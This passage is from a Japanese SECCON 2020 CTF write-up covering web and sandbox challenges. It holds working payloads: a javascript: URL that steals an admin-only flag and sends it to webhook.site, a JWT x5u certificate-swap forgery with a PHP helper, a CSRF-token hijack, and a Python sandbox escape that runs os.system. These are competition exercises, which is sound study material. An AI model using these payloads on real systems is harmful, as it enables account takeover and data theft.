  func_name = frame.f_code.co_name
  if event == 'call':
    return trace
  elif event == 'return':
    if func_name == '<lambda>' and type(arg) is int:
      res = arg

sys.settrace(trace)
print_ = print
__builtins__.input = lambda: 'SECCON{TEST}'
__builtins__.print = lambda s: None
import fixer

# go!
known = ''
target = 13611142019359843741091679554812914051545792465993098606064046040462991
for _ in range(30):
  min_d, min_c = 1e100, '?'

  for c in string.ascii_uppercase:
    __builtins__.input = lambda: 'SECCON{' + (c + known).rjust(30, 'A') + '}'
    importlib.reload(fixer)
    if abs(target - res) < min_d:
      min_d, min_c = abs(target - res), c

  known = min_c + known
  print_(known)

print_('SECCON{' + known + '}')
```

```
root@30c38955e54c:/app# python solve.py
A
ZA
KZA
...
MYCJILJCZEKRDNNWZUGSEZQSKKPKZA
SECCON{MYCJILJCZEKRDNNWZUGSEZQSKKPKZA}
root@30c38955e54c:/app# python fixer.25f1fe08e6e0434bd5ae604e963f4b80.cpython-39.pyc
SECCON{MYCJILJCZEKRDNNWZUGSEZQSKKPKZA}
correct
```

フラグが得られました。

```
SECCON{MYCJILJCZEKRDNNWZUGSEZQSKKPKZA}
```

### [web 130] Beginner's Capsule (55 solves)
> Genre: Web+Misc
> 
> https://(省略)/
> 
> 添付ファイル: beginners_capsule.tar.gz

与えられた URL にアクセスすると、以下のような TypeScript コードと、TypeScript コードの入力フォームが表示されました。



`Flag` のオブジェクトの `flag` というプロパティを読めばよいようです。プロパティ名の前に `#` が付いていることから、これはハードプライベートなプロパティであり、外部からは読み取ることができないことがわかります。

`beginners_capsule.tar.gz` には `Dockerfile`、`runner.ts`、`server.ts` などのファイルが含まれていました。入力された TypeScript コードの実行周りの処理は `runner.ts` に書かれています。確認しましょう。

```typescript
import Docker from 'dockerode';
import tmp from 'tmp';
import path from 'path';
import concatStream from 'concat-stream';
import {promises as fs} from 'fs';
import BluePromise, {TimeoutError} from 'bluebird';
import type {Writable} from 'stream';
import {PassThrough} from 'stream';

const LIB = `
module.exports.enableSeccompFilter = () => {
  const {
    SCMP_ACT_ALLOW,
    SCMP_ACT_ERRNO,
    NodeSeccomp,
    errors: {EACCESS},
  } = require('node-seccomp');

  const seccomp = NodeSeccomp();

  seccomp
    .init(SCMP_ACT_ALLOW)
    .ruleAdd(SCMP_ACT_ERRNO(EACCESS), 'open')
    .ruleAdd(SCMP_ACT_ERRNO(EACCESS), 'openat')
    .load();

  delete require.cache[require.resolve('node-seccomp')];
};
`;

const HEADER = `
import * as fs from 'fs';
// @ts-ignore
import {enableSeccompFilter} from './lib.js';

class Flag {
  #flag: string;
  constructor(flag: string) {
    this.#flag = flag;
  }
}

const flag = new Flag(fs.readFileSync('flag.txt').toString());
fs.unlinkSync('flag.txt');

enableSeccompFilter();

`;

const docker = new Docker();

export const execute = async (code: string) => {
  // ...

  const libPath = path.join(tmpPath, 'lib.js');
  const flagPath = path.join(tmpPath, 'flag.txt');
  const codePath = path.join(tmpPath, 'index.ts');

  await BluePromise.all([
    fs.writeFile(libPath, LIB),
    fs.writeFile(flagPath, process.env.FLAG),
    fs.writeFile(codePath, HEADER + code),
  ]);

  // ...

  let container: Docker.Container;
  const containerPromise = (async () => {
    container = await docker.createContainer({
      Hostname: '',
      User: '',
      AttachStdin: false,
      AttachStdout: true,
      AttachStderr: true,
      Tty: false,
      OpenStdin: false,
      StdinOnce: false,
      Env: null,
      Cmd: ['/node_modules/.bin/ts-node', 'index.ts'],
      Image: 'beginners_capsule',
      WorkingDir: '/volume',
      Volumes: {
        '/volume': {},
      },
      HostConfig: {
        Binds: [`${dockerVolumePath}:/volume:rw`],
        Memory: 512 * 1024 * 1024,
      },
    });

    // ...
  })();
  // ...
};
```

入力した TypeScript コードは、`ts-node` によって TypeScript から JavaScript にトランスパイルされた後に実行されているようです。どのような JavaScript コードにトランスパイルされるか、[TS Playground](https://www.typescriptlang.org/play) に投げて確認してみましょう。



`_flag` という外部からもアクセス可能な変数に `WeakMap` が入っています。この中に `flag` プロパティの実体があり、`_flag.get(flag)` のように `Flag` のインスタンスをキーとして、そのオブジェクトの `flag` プロパティにアクセスすることができそうです。TS Playground で `_flag.get(flag)` を試してみましょう。



`_flag` という変数名が使われていることを検知して、`WeakMap` の変数名が `_flag_1` に変わってしまいました。`eval('_flag.get(flag)')` に変えたところ、今度は変数名が `_flag_1` に変わりませんでした。

これを利用して、問題サーバで `console.log(eval('_flag.get(flag)'))` を実行するとフラグが得られました。

```
SECCON{Player_WorldOfFantasy_StereoWorXxX_CapsLock_WaveRunner}
```

### [web 186] Milk (25 solves)
> Sadly not every developer is well posted in the cutting-edge technologies, so sometimes bizarre interface is driven under the hood.
> 
> https://(省略)/
> 
> 添付ファイル: milk.tar.gz
> 
> Update(2020/10/10 17:38): We disclosed a part of our crawler as a hint. crawl.js

与えられた URL にアクセスすると、以下のようなユーザ登録フォームとログインフォームが表示されました。


適当なユーザ名とパスワードで登録してログインすると、以下のようなテキストボックスが表示されました。Pastebin のようなサービスということでしょうか。


適当な内容でメモを作成すると、`/notes/5f8761b800c2d055008ce9ac` というような URL にリダイレクトされて以下のように表示されました。`REPORT-TO-ADMIN` というボタンがあり、どうやら管理者がこのメモを閲覧するよう要求できるようです。


`milk.tar.gz` としてソースコードが与えられています。フラグの場所を確認すると、`api/notes.ts` に以下のようなコードが見つかりました。

```javascript
import {Router} from 'https://deno.land/x/oak/mod.ts';
import {ObjectId} from 'https://deno.land/x/mongo/ts/types.ts';
import {Notes, Tokens, Users} from './mongo.ts';

const router = new Router({prefix: '/notes'});

// CSRF Token validation
router.use(async (ctx, next) => {
  const tokenString = ctx.request.url.searchParams.get('token') || '';
  const token = await Tokens.findOne({token: tokenString});
  if (!token) {
    ctx.response.body = 'Bad CSRF token';
    ctx.response.status = 400;
    return;
  }
  if (token.username === '') {
    ctx.response.status = 403;
    return;
  }

  await Tokens.deleteOne({_id: token._id});

  ctx.state.user = (await Users.findOne({username: token.username}))!;

  await next();
});

// ...

router.get('/flag', async (ctx) => {
  if (!ctx.state.user.admin) {
    ctx.response.body = 'Flag is the privilege available only from admin, right?';
    ctx.response.status = 403;
    return;
  }

  ctx.response.body = Deno.env.get('FLAG');
});

export default router;
```

API サーバの `/notes/flag` にアクセスすると、管理者としてログインしている場合にのみフラグが表示されるようです。

管理者の巡回に使われるスクリプトをである `crawl.js` を確認すると、気になる部分が見つかりました。

```javascript
const crawl = async (url) => {
    console.log(`[*] started: ${url}`)
    
    let browser = await puppeteer.launch(browser_option);
    const page = await browser.newPage();
    try {
        await page.authenticate({username: 'seccon', password: 't0nk02'});

        await page.goto(`https://${process.env.DOMAIN}`, {
            waitUntil: 'networkidle0',
            timeout: 5000,
        });

        await page.type('.column:nth-child(2) [name=username]', process.env.ADMIN_USER);
        await page.type('.column:nth-child(2) [name=password]', process.env.ADMIN_PASS);
        await Promise.all([
            page.waitForNavigation({
                waitUntil: 'networkidle0',
                timeout: 5000,
            }),
            page.click('.column:nth-child(2) [type=submit]'),
        ]);

        await page.goto(url, {
            waitUntil: 'networkidle0',
            timeout: 5000,
        });
    } catch (err){
        console.log(err);
    }
    await page.close();
    await browser.close();
    console.log(`[*] finished: ${url}`)
};
```

ログイン後、`await page.goto(url, {...});` でユーザが入力した URL に遷移させていますが、`http://` もしくは `https://` から始まることがチェックされていません。

このような状況で思い出されるのは、昨年の TSG CTF の Web 問で発見された非想定解法です。

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">javascript:url+document.cookieで通りました...w</p>&mdash; no1zy (@no1zy_sec) <a href="https://twitter.com/no1zy_sec/status/1124932073955807233?ref_src=twsrc%5Etfw">May 5, 2019</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

`javascript:` スキームの URL を入力すると、現在開かれているページ (この場合は問題ページ) のコンテキストで JavaScript コードを実行させることができるというものです。

作問者への申し訳なさを感じつつ、CTF とはそういう競技なのだと断腸の思いで以下のような URL を報告するとフラグが得られました。

```javascript
javascript:csrfTokenCallback=(async(token)=>{$.get({url:'https://(省略)/notes/flag',data:{token},xhrFields:{withCredentials: true}}).done(r=>{location.href=['https://webhook.site/(省略)?',JSON.stringify(r)]})});{let s=document.createElement('script');s.src='https://(省略)/csrf-token?_=xxnazsljsggoxwnggknjwtegnmkuadgd'+Math.random();document.body.appendChild(s)}
```

```
SECCON{I_am_heavily_concerning_about_unintended_sols_so_I_dont_put_any_spoiler_here_but_anyway_congrats!}
```

### [web 197] Capsule (22 solves)
> Genre: Web+Misc
> 
> https://(省略)/
> 
> 添付ファイル: capsule.tar.gz

Beginner's Capsule を難しくした問題のようです。与えられた URL にアクセスすると、以下のような JavaScript コードと JavaScript コードの入力フォームが表示されました。



また `Flag` のインスタンスの `flag` プロパティを読めばよさそうですが、今度はピュアな JavaScript になっています。

今回も `#flag` とプロパティ名の前に `#` が付いていますが、これは[プライベートなプロパティ](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Classes/Private_class_fields)を意味するものでしょう。こちらもやはり外部からアクセスすることはできません。

なんとかできないかググっていると、[Discussion: private fields and util.inspect · Issue #27404 · nodejs/node](https://github.com/nodejs/node/issues/27404) という気になる issue が見つかりました。[`inspector` というモジュールを使ってアクセスする方法](https://github.com/nodejs/node/issues/27404#issuecomment-569924796)が紹介されています。試してみましょう。

```javascript
const inspector = require('inspector');
const session = new inspector.Session();
process.mainModule.flag = flag;
session.connect();
session.post('Runtime.evaluate', { expression: `process.mainModule.flag` },
  (error, { result }) => {
    console.log(result);
    session.post('Runtime.getProperties', { objectId: result.objectId },
      (error, { privateProperties }) => {
        console.log('private properties', privateProperties);
      });
  });
```

これを実行すると以下のような結果が返ってきました。

```
{
  type: 'object',
  className: 'Flag',
  description: 'Flag',
  objectId: '{"injectedScriptId":1,"id":1}'
}
private properties [
  {
    name: '#flag',
    value: {
      type: 'string',
      value: 'SECCON{HighCollarGirl_CutieCinem@Replay_PhonyPhonic_S.F.SoundFurniture}'
    }
  }
]
```

フラグが得られました。私は phony phonic が好きです。

```
SECCON{HighCollarGirl_CutieCinem@Replay_PhonyPhonic_S.F.SoundFurniture}
```

---

この問題は Harekaze が first blood でした。やったー。

### [web 248] pasta (13 solves)
> I made a simple application with a proxy for authentication (URL 1). What's fantastic is that you can log in to the application from the another app. (URL 2) Enjoy!
> 
> Hint: source code
> 
> 添付ファイル: pasta.tar.gz

サービス A とサービス B というふたつのサービスが動いているようです。サービス A とサービス B はどうやら JWT でユーザのログイン情報を共有できるようになっているようです。

サービス B ではログイン時の JWT の発行に `x5u` もしくは `x5c` のオプションが選択できるようです。

`x5u` と `x5c` というものがなにかわからずググってみたところ、これは [JWS (JSON Web Signature)](https://tools.ietf.org/html/rfc7515) のヘッダであることがわかりました。`x5u` は X.509 証明書が設置されている URI が、`x5c` は X.509 証明書が入るようです。

もちろん、ただ自前の証明書を `x5u` もしくは `x5c` を使って参照させるようにするだけでは解けません。証明書チェーンの検証がされているため、そういったことをすると自前の証明書を使ったとバレてしまいます。

いろいろ試していると、`x5u` に自分の管理している Web サーバの URL を入力した際に、問題サーバが毎回わざわざ 2 回もアクセスしに来ていることに気づきました。どういうことか、ソースコードを確認してみましょう。

`dist/auth/jwt.go` を見てみます。

```go
package main

import (
	"crypto/rsa"
	"crypto/tls"
	"crypto/x509"
	"encoding/base64"
	"fmt"
	"io/ioutil"
	"net/http"
	"time"

	"github.com/dgrijalva/jwt-go"
)

func extractCertificatesX5U(x5u string) ([]*x509.Certificate, error) {
	c := &http.Client{
		Timeout: 5 * time.Second,
		Transport: &http.Transport{
			TLSClientConfig: &tls.Config{
				InsecureSkipVerify: true,
			},
		},
	}
	resp, err := c.Get(x5u)
	if err != nil {
		return nil, fmt.Errorf("failed to get certificate url. %w", err)
	}
	defer resp.Body.Close()

	rawCrt, err := ioutil.ReadAll(resp.Body)
	if err != nil {
		return nil, fmt.Errorf("failed to load body of certificate. %w", err)
	}

	return parseCRT(rawCrt)
}

func extractCertificatesX5C(x5c []interface{}) ([]*x509.Certificate, error) {
	var certs []*x509.Certificate
	for _, encodedCert := range x5c {
		rawCert, err := base64.StdEncoding.DecodeString(encodedCert.(string))
		if err != nil {
			return nil, err
		}
		cert, err := x509.ParseCertificate(rawCert)
		if err != nil {
			return nil, err
		}
		certs = append(certs, cert)
	}
	return certs, nil
}

func extractCertificateChainFromHeader(token *jwt.Token) ([]*x509.Certificate, bool) {
	for k, v := range token.Header {
		if k == "x5u" || k == "x5c" {
			var certs []*x509.Certificate
			var err error
			if k == "x5u" {
				certs, err = extractCertificatesX5U(v.(string))
			} else if k == "x5c" {
				certs, err = extractCertificatesX5C(v.([]interface{}))
			}
			return certs, err == nil
		}
	}
	return nil, false
}

func validateTokenHeader(token *jwt.Token, rootPool *x509.CertPool) bool {
	// signing method must be RS256.
	if _, ok := token.Method.(*jwt.SigningMethodRSA); !ok {
		return false
	}

	// if x509 certs are specified in the JWT header,
	// they must be verified with our root CA!
	certs, ok := extractCertificateChainFromHeader(token)
	return !ok || verifyCertificates(certs, rootPool)
}

func generateKeySelector(defaultKey *rsa.PublicKey) func(*jwt.Token) (interface{}, error) {
	return func(token *jwt.Token) (interface{}, error) {
		// if x509 cert(s) are specified in the JWT header, use the first cert of them.
		certs, ok := extractCertificateChainFromHeader(token)
		if ok {
			firstKey, ok := certs[0].PublicKey.(*rsa.PublicKey)
			if !ok {
				return nil, fmt.Errorf("not a RSA public key")
			}
			return firstKey, nil
		}

		// if no keys are specified, use default key to validate.
		return defaultKey, nil
	}
}
```

`x5u` が使われている場合に証明書を取りに行く関数として `extractCertificatesX5U` がありますが、これは `extractCertificateChainFromHeader` という JWT のヘッダから証明書チェーンを取り出す関数から呼び出されています。

`extractCertificateChainFromHeader` で検索すると、`validateTokenHeader` と `generateKeySelector` というふたつの関数から呼び出されていることがわかります。

`verifyCertificates` では証明書チェーンの検証を、`generateKeySelector` では JWT の検証のために証明書を取り出す処理が行われています。

これは TOCTOU でしょう。証明書チェーンの検証時と JWT の検証時で別々に証明書を取りに来ているため、前者では正規の証明書を、後者では自前の証明書を返すようにすれば、自前の証明書で署名した JWT を正規のものと誤認させ、また自前の証明書を正規のものと誤認させることができそうです。

以下のようにアクセスごとに返ってくる証明書が変わる PHP スクリプトを用意します。`a.crt` には問題サーバから取得した正規の証明書を、`b.crt` には自分で生成した証明書を置いておきます。

```
$ echo -en 'a.crt' > now.txt
$ cat a.php 
<?php
header('Content-Type: text/plain; charset=utf-8');
$now = file_get_contents('now.txt');
readfile($now);

file_put_contents('now.txt', $now === 'b.crt' ? 'a.crt' : 'b.crt');
$ php -S 0.0.0.0:8000
```

サービス B で `x5u` を選択して生成された JWT を [jwt.io](https://jwt.io/) に入力し、ヘッダ部分を以下のように変え、

```
{
  "alg": "RS256",
  "typ": "JWT",
  "x5u": "http://(省略):8000/crt.php"
}
```

またペイロードを以下のように変えた上で、`b.crt` に対応する秘密鍵で署名します。

```
{
  "issuer": "service-b",
  "role": "admin",
  "sub": "a"
}
```

出てきた JWT を Cookie にセットしてサービス A にアクセスすると、以下のようにフラグが表示されました。



```
SECCON{1_w0uLd_L1K3_70_347_r4M3N_1N5734d_0f_p4574}
```

## 競技終了後に解いた問題
以下の問題は競技中に解くことはできませんでしたが、後から解いてみたので writeup を書いてみます。

### [web 205] Milk Revenge (20 solves)
> It's no use crying over spilt milk, but we resolved it by releasing another Milk :)
> 
> https://(省略)/
> 
> The crawler of this service is crawl.js.
> 
> We expect you don't have to read this, but the source code of the new service is available at milk-revenge.tar.gz.

Milk の修正版です。`crawl.js` が以下のように修正され、`javascript:` スキームを使っても実行されるコンテキストが問題ページ上ではなくなりました。

```javascript
const crawl = async (url) => {
    console.log(`[*] started: ${url}`)
    
    let browser = await puppeteer.launch(browser_option);
    try {
        {
            const page = await browser.newPage();

            await page.goto(`https://${process.env.DOMAIN}`, {
                waitUntil: 'networkidle0',
                timeout: 5000,
            });

            await page.type('.column:nth-child(2) [name=username]', process.env.ADMIN_USER);
            await page.type('.column:nth-child(2) [name=password]', process.env.ADMIN_PASS);
            await Promise.all([
                page.waitForNavigation({
                    waitUntil: 'networkidle0',
                    timeout: 5000,
                }),
                page.click('.column:nth-child(2) [type=submit]'),
            ]);
            await page.close();
        }

        {
            const page = await browser.newPage();
            await page.goto(url, {
                waitUntil: 'networkidle0',
                timeout: 5000,
            });
            await page.close();
        }
    } catch (err){
        console.log(err);
    }
    await browser.close();
    console.log(`[*] finished: ${url}`)
};
```

ソースコードに怪しい点がないか見ていきましょう。`/api/root.ts` を見ると、API サーバの `/csrf-token` はたとえ同じ GET パラメータが与えられたとしても、アクセスするたびに毎回異なる CSRF トークンを返すことがわかります。

```typescript
import {Router} from 'https://deno.land/x/oak/mod.ts';
import {v4 as UUID} from 'https://deno.land/std/uuid/mod.ts';
import {Tokens} from './mongo.ts';

const router = new Router();

router.get('/csrf-token', async (ctx) => {
  const username = ctx.cookies.get('username') || '';

  if (ctx.request.url.search.length <= 12) {
    ctx.response.body = 'Path is shorter than expected';
    ctx.response.status = 400;
    return;
  }

  const token = UUID.generate();
  await Tokens.insertOne({token, username});

  ctx.response.body = `csrfTokenCallback('${token}')`;
  ctx.response.headers.set('Content-Type', 'text/javascript');
});

export default router;
```

しかしながら、`nginx.conf` で 1 分のキャッシュが設定されているために、`/csrf-token?_=hogehogehoge` のように同じ GET パラメータを与えると、その後 1 分間は同じ CSRF トークンを返すようになることがわかります。

```
events {
	worker_connections 1024;
}

http {
	# ...

	server {
		listen 0.0.0.0:443 ssl;
		server_name (省略);

		ssl_certificate credential.crt;
		ssl_certificate_key credential.key;

		add_header Access-Control-Allow-Origin https://(省略) always;
		add_header Access-Control-Allow-Credentials true always;
		proxy_cookie_path / "/; SameSite=None; Secure";

		location / {
			proxy_pass http://api:8000;
			proxy_read_timeout 5s;
			proxy_cache one;
			proxy_cache_valid 200 1m;
		}
	}
}
```

また、フロントエンドサーバの `note.php` を見ると、`<script src=https://(省略)/csrf-token?_=<?= htmlspecialchars(preg_replace('/\d/', '', $_GET['_'])) ?> defer></script>` で XSS はできない (属性を挿入できるだけ) ものの、GET パラメータを固定させることができるとわかります。

```php
<!DOCTYPE html>
<html lang=en>
<head>
  <meta charset=UTF-8>
  <title>Milk</title>
  <link rel=stylesheet href=https://fonts.googleapis.com/css2?family=Comfortaa:wght@400&family=Roboto:ital,wght@0,300;0,700;1,300;1,700>
  <link rel=stylesheet href=https://cdn.jsdelivr.net/npm/normalize.css/normalize.css>
  <link rel=stylesheet href=https://cdn.jsdelivr.net/npm/milligram/dist/milligram.css>
  <style>
    body { text-align: center; }
    h1 { font-family: Comfortaa; font-size: 20rem; margin-top: 10rem; }
  </style>
  <script src=https://code.jquery.com/jquery-3.5.1.min.js></script>
  <script src=https://(省略)/csrf-token?_=<?= htmlspecialchars(preg_replace('/\d/', '', $_GET['_'])) ?> defer></script>
  <script src=/index.js></script>
  <script>
    csrfTokenCallback = async (token) => {
      window.csrfTokenCallback = null;
      const paths = location.pathname.split('/');

      const data = await $.get({
        url: 'https://(省略)/notes/get',
        data: {id: paths[paths.length - 1], token},
        xhrFields: {
          withCredentials: true,
        },
      });

      document.getElementById('username').textContent = data.note.username;
      document.getElementById('body').textContent = data.note.body;

      document.querySelector('[name=url]').value = location.href;
    };
  </script>
</head>
<body>
  <div class=container>
    <h1><a href=/>Milk</a></h1>
    <p><strong id=username></strong>'s memory:</p>
    <blockquote id=body></blockquote>
    <form action=/report method=POST>
      <input type=hidden name=url>
      <input class=button-primary type=submit value=Report-to-admin>
    </form>
  </div>
</body>
</html>
```

競技中はこの 2 つの脆弱性に気づくことはできましたが、どうやって悪用すればよいかはわかりませんでした。

---

もう一度 `/api/root.ts` を見てみましょう。

```typescript
import {Router} from 'https://deno.land/x/oak/mod.ts';
import {v4 as UUID} from 'https://deno.land/std/uuid/mod.ts';
import {Tokens} from './mongo.ts';

const router = new Router();

router.get('/csrf-token', async (ctx) => {
  const username = ctx.cookies.get('username') || '';

  if (ctx.request.url.search.length <= 12) {
    ctx.response.body = 'Path is shorter than expected';
    ctx.response.status = 400;
    return;
  }

  const token = UUID.generate();
  await Tokens.insertOne({token, username});

  ctx.response.body = `csrfTokenCallback('${token}')`;
  ctx.response.headers.set('Content-Type', 'text/javascript');
});

export default router;
```

`await Tokens.insertOne({token, username});` と MongoDB に CSRF トークンとユーザ名をセットで保存しています。

`/api/notes.ts` の CSRF トークンのチェック処理を見てみましょう。

```typescript
import {Router} from 'https://deno.land/x/oak/mod.ts';
import {ObjectId} from 'https://deno.land/x/mongo/ts/types.ts';
import {Notes, Tokens, Users} from './mongo.ts';

const router = new Router({prefix: '/notes'});

// CSRF Token validation
router.use(async (ctx, next) => {
  const tokenString = ctx.request.url.searchParams.get('token') || '';
  const token = await Tokens.findOne({token: tokenString});
  if (!token) {
    ctx.response.body = 'Bad CSRF token';
    ctx.response.status = 400;
    return;
  }
  if (token.username === '') {
    ctx.response.status = 403;
    return;
  }

  await Tokens.deleteOne({_id: token._id});

  ctx.state.user = (await Users.findOne({username: token.username}))!;

  await next();
});

// ...

export default router;
```

`const token = await Tokens.findOne({token: tokenString});` でまず CSRF トークンに紐付けられているユーザ名を取得した後、`ctx.state.user = (await Users.findOne({username: token.username}))!;` でユーザ情報を更新していることがわかります。

CSRF トークンさえわかれば、その CSRF トークンが利用される前に先に利用することで紐付けられているユーザを乗っ取ることができるというわけです。ヤバ。

「CSRF トークンが利用される前に先に利用する」にはどうすればよいかわからず[作問者の writeup](https://hackmd.io/@hakatashi/S15X3c1wv) を確認したところ、例えば `/note.php?_=hogehogehoge a=` のように `defer` を適当な属性の値にしてしまうとか、`charset` 属性を加えるとか、様々な方法で `csrfTokenCallback` が呼ばれないようにできることがわかりました。すごい。

`https://(省略)/note.php?_=piyopiyopiyo%20a=` を報告した後、`https://(省略)/csrf-token?_=piyopiyopiyo` にアクセスして返ってきた CSRF トークンを使って `/notes/flag` にアクセスするとフラグが得られました。

```javascript
(async () => {
  await $.get({
    url: 'https://(省略)/notes/flag',
    data: {token: '6d121dc2-8c72-4601-b8d8-42a2f8d877ea'},
    xhrFields: {
      withCredentials: true,
    },
  });
})();
```

```
SECCON{Okay_there_was_actually_unintended_solution_as_I_intended_blahblah}
```

### [sandbox 322] Yet^2 Another PySandbox (7 solves)
> hahaha, endless, YET YET ANOTHER python sandbox challenge!
> 
> nc (省略) 30003
> 
> 添付ファイル: run.py

Yet Another PySandbox との diff を取ってみましょう。

```diff
--- run.bde1c4a3e543e63ff3c7f3d5e93bf075.py     2020-10-10 20:29:51.345882500 +0900
+++ "../Yet^2 Another PySandbox/run.66775ba8d949221aca19ab8912ae2f32.py"      2020-10-10 20:30:32.275539600 +0900
@@ -14,7 +14,7 @@
 INT = int

 for k in keys:
-    if k not in ['False', 'None', 'True', 'bool', 'bytearray', 'bytes', 'chr', 'dict', 'eval', 'exit', 'filter', 'float', 'hash', 'int', 'iter', 'len', 'list', 'long', 'map', 'max', 'ord', 'print', 'range', 'raw_input', 'reduce', 'repr', 'setattr', 'sum', 'type']:
+    if k not in []: # Goodbye :)
         del __builtins__.__dict__[k]

 def print_eval_result(x):
@@ -27,7 +27,8 @@
     s = s.lower()
     if LEN(s) > 0x1000:
         return FALSE
-    for x in ['eval', 'exec', '__', 'module', 'class', 'globals', 'os', 'import']:
+    # no need to block `eval`, but I'm not sure about others :(
+    for x in ['__', 'module', 'class', 'globals', 'os', 'import']:
         if x in s:
             return FALSE
     return TRUE
```

`__builtins__` からは全てのメンバが削除されるようになってしまいましたが、かわりに `print_eval_result` でのチェックから `eval` が外されています。

---

作問者のツイートによれば、Python では `eval` 内の無名関数のスコープはグローバルだそうです。マジか…。

<blockquote class="twitter-tweet"><p lang="en" dir="ltr"><a href="https://twitter.com/hashtag/seccon?src=hash&amp;ref_src=twsrc%5Etfw">#seccon</a> intended solution<br><br>[Yet Another PySandbox] Craft a code object to create an arbitrary function to getsh<br>[Yet^2 Another PySandbox] lambda&#39;s scope within `eval` is global<br>[mlml] Use OCaml&#39;s unsound hole: ocaml/ocaml/issues/7241<br>[Fixer] Read bytecode and parse the fixpoints</p>&mdash; mora (@moratorium08) <a href="https://twitter.com/moratorium08/status/1315177104057626624?ref_src=twsrc%5Etfw">October 11, 2020</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

これを利用すれば `sandboxed_eval` にアクセスすることができますから、あとは Yet Another PySandbox と同じペイロードを実行するだけです。

```
$ nc (省略) 30003
Welcome to yet yet another sandboxed python evaluator!
Give me an expression (ex: 1+2): 
> (lambda:sandboxed_eval)()("[x for x in ().\x5f_cl\x61ss_\x5f.\x5f_base_\x5f.\x5f_subcl\x61sses_\x5f() if x.\x5f_name_\x5f == 'catch_warnings'][0].\x5f_repr_\x5f.im_func.func_glob\x61ls['linecache'].\x6fs.system('cat flag*')")
SECCON{huh, impossible definitely. How did you get here?}
0
```

フラグが得られました。

```
SECCON{huh, impossible definitely. How did you get here?}
```